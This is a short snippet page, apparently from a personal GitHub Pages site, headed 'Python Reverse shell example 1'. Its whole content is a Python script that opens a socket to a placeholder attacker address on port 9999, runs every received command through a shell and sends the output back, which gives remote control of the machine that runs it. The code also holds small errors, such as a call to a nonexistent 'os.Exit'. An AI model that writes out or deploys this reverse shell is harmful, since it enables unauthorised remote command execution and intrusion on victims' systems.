 ### Snippets

[Home page](https://assassinukg.github.io/ac1d)
[Snippets](https://assassinukg.github.io/ac1d/snippets)

# Python Reverse shell example 1
```
import socket
import os
import subprocess

s = socket.socket()
host = 'ENTER IP HERE'
port = 9999

s.connect((host, port))

while True:
    data = s.recv(1024)
    if data[:4].decode("utf-8") == "quit" or data[:3].decode("utf") == "exit":
        os.Exit(-1)
    if data[:2].decode("utf-8") == 'cd':
        os.chdir(data[3:].decode("utf-8"))

    # if len(data) > 0:
    cmd = subprocess.Popen(data[:].decode("utf-8"),shell=True, stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE)
    output_byte = cmd.stdout.read() + cmd.stderr.read()
    output_str = str(output_byte,"utf-8")
    currentWD = os.getcwd() + "> "
    s.send(str.encode(output_str + currentWD))

    print(output_str)
```
